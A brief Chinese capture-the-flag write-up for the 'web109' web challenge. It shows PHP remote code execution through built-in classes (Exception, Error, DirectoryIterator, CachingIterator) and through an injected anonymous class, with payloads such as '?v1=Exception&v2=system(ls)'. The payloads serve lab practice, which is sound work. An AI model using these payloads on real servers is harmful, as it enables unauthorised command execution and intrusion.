

# web109


猜测可能需要用内置类的方法
使用带有::同string的类(将参数转换为字符,达到eval('转化后的字符'))代码执行的目的
```
?v1=DirectoryIterator&v2=system(ls)
?v1=Error&v2=system(ls)
?v1=CachingIterator&v2=system(ls)
?v1=Exception&v2=system(ls)

```

还有使用匿名类方法
```
?v1=class{ public function __construct(){ system('ls'); } };&v2=a
```
查看目录,在访问
?v1=FilesystemIterator&v2=getcwd